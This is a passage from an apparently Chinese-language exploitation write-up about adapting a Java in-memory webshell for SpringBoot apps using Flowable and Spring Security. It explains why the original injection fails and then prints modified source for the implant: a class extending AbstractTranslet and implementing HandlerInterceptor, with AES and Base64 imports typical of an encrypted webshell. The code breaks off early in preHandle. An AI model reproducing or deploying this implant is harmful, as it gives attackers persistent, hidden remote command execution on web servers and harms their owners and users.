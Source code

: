 ```xml

</definitions>
```

### 修改内存马

直接使用原版的内存马时，会遇到两个问题

1. SpringBoot+Flowable的项目中，`org.springframework.context.support.LiveBeansView#applicationContexts`字段中存在多个`ConfigurableApplicationContext`对象，导致原本的注入无法准确注入
2. SpringBoot+SpringSecurity 配合使用时，`org.springframework.web.servlet.HandlerInterceptor#preHandle`中request的运行类型实际是`org.springframework.security.web.servletapi.HttpServlet3RequestFactory$Servlet3SecurityContextHolderAwareRequestWrapper`，无法在原有的代码上直接执行，需要先处理成`org.apache.catalina.connector.RequestFacade`  
    修改完成后的代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import liquibase.pro.packaged.A;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.springframework.context.ConfigurableApplicationContext;
import org.springframework.security.web.servletapi.SecurityContextHolderAwareRequestWrapper;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.handler.MappedInterceptor;
import sun.misc.BASE64Decoder;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletRequestWrapper;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Iterator;
import java.util.LinkedHashSet;
import java.util.List;

public class A12345 extends AbstractTranslet implements HandlerInterceptor {
    public A12345() {
    }

    public void transform(DOM var1, SerializationHandler[] var2) throws TransletException {
    }

    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) throws TransletException {
    }

    public boolean preHandle(HttpServletRequest req1, HttpServletResponse resp, Object var3) throws Exception {
        HttpServletRequest request = req1;
        // 兼容springboot + springSecurity
        if (req1.getClass().getName().contains("Servlet3SecurityContextHolderAwareRequestWrapper")) {
```